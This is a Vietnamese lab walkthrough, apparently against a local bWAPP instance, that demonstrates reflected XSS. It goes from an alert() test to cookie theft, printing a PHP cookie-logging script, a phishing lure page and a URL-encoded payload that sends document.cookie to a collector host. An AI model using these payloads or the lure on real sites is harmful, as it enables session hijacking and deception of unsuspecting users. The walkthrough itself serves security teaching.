 Bước 1: Xác định vị trí có thể dính XSS
Thử nhập họ tên và nhận được kết quả

![image](https://github.com/user-attachments/assets/34804180-fbab-4493-b02e-6a7296ad0bb2)

Kết quả trả về hiển thị ‘ Welcome Tran Van Thiep’. Từ đó có thể xác định có
khả năng bị dính lỗi XSS

Do là hoạt động theo phương thức GET nên có thể thấy dữ liệu được truyền đi 
kèm theo URL.

![image](https://github.com/user-attachments/assets/b2a93875-390a-4994-8316-65c6e540112f)

Bước 2: Kiểm tra lỗi XSS

Sau khi đã xác định được vị trí có khả năng mắc lỗi XSS, tiến hành kiểm tra 
bằng cách thử truyền vào 1 đoạn mã java script **<script>alert("XSS")</script>** để
thực hiện tạo 1 popup thông báo để kiểm tra xem site có bị lỗi XSS hay không?

![image](https://github.com/user-attachments/assets/8867814d-0762-40c0-a74a-6ec7c2a0430c)

Vậy là đã chắc chắn web vulnerable với XSS, ta sẽ tiến hành khai thác bằng kỹ thuật đánh cắp cookie:

Code php crawl cookie:

```php
<?php
    if(isset($_GET['cookie']))
    {
        $cookie = $_GET['cookie'];
        // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để write chứ không scan hay read
        $f=fopen('cookie.txt','a');
        // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
        fwrite($f,$_SERVER['HTTP_REFERER']);
        // Ghi giá trị cookie
        fwrite($f,". Cookie la: ".$cookie." \n");
        // Đóng file lại
        fclose($f);
    }
?>
```

* Tạo một url phishing
```html
<html>
  <head>
      <title>CHUC MUNG!!!</title>
  </head>
  <body>
      <h1 align="center">Bạn đã trúng tour du lịch vòng quanh Mỹ Đình</h1>
      <h1 align="center">-Mỹ Đình Bus-</h1>
  Xem thông tin chi tiết <a href='http://localhost/bwapp/xss_get.php?firstname=%3Cscript%3Ewindow.open%28%22http%3A%2F%2Flocalhost%2Fget.php%3Fcookie%3D%22%2Bdocument.cookie%29%3C%2Fscript%3E&lastname=Thiep&form=submit'>tai day</a> .
  </body>
</html>
```

Tiếp theo, lừa người dùng click vào link phishing

![image](https://github.com/user-attachments/assets/009dbf69-a15d-4145-be39-23f1c6a4b5ea)

Khi mục tiêu ấn click vào link sẽ bị chuyển hướng tới web đã bị đệm javascript, sau đó sẽ bị crawl cookie về cookie.txt tại máy attacker:

